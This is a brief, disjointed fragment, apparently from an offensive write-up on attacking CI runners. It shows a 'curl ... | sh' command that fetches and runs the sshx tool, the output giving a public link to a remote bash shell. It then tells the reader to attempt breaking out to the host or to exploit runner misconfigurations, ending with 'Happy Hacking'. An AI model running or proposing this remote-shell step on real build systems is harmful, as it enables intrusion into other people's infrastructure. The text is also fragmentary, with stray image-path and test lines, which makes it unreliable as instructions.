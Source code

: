 ```bash
[+] Multi line test ......... Yes
[removed]

$ curl -sSf https://sshx.io/get | sh -s run
↯ Downloading sshx from https://s3.amazonaws.com/sshx/sshx-x86_64-unknown-linux-musl.tar.gz
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 2971k  100 2971k    0     0  7099k      0 --:--:-- --:--:-- --:--:-- 7109k
↯ Adding sshx binary to /tmp/tmp.zky0trhv9m
↯ Done! You can now run sshx.
  sshx v0.2.5
  ➜  Link:  https://sshx.io/s/Vg[removed]
  ➜  Shell: /bin/bash
```

From the interactive shell, you can now try breakout to the host, or find runner misconfigurations e.g. host mounted volumes.

Happy Hacking
